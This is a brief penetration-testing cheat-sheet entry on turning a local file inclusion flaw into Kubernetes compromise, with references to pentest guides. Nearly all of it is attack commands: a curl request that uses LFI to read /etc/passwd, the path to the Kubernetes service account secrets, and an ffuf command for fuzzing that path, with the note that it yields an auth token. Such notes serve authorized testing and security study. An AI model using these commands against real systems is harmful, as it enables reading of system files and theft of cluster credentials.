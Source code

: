 ## Kubernetes Local File Inclusion (LFI) to Exploit:
```
# Basic LFI
  curl -s http://0.0.0.0/file.php?page=/etc/passwd
# If LFI, also check
  /var/run/secrets/kubernetes.io/serviceaccount
# Ffuf
  ffuf -u http://0.0.0.0/file.php?page=/var/run/secrets/kubernetes.io/serviceaccount/FUZZ -w /usr/share/seclists/Discovery/Web-Content/Big.txt -fw 1126
  
You will get AuthToken
```
### References:
1. https://pentestbook.six2dez.com/enumeration/web/lfi-rfi
2. https://www.youtube.com/watch?v=Vj4PvvtCA1c
3. https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-3

